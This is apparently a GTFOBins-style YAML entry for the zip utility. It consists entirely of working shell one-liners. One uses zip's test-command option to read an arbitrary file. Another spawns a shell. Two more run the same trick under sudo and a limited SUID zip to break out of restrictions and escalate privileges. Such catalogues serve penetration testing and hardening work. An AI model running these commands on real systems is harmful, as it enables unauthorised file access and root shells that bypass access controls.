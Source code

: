functions:
  file-read:
    - code: |
        LFILE=file-to-read
        TF=$(mktemp -u)
        zip $TF $LFILE
        unzip -p $TF
  shell:
    - code: |
        TF=$(mktemp -u)
        zip $TF /etc/hosts -T -TT 'sh #'
        rm $TF
  sudo:
    - code: |
        TF=$(mktemp -u)
        sudo zip $TF /etc/hosts -T -TT 'sh #'
        sudo rm $TF
  limited-suid:
    - code: |
        TF=$(mktemp -u)
        ./zip $TF /etc/hosts -T -TT 'sh #'
        sudo rm $TF
---
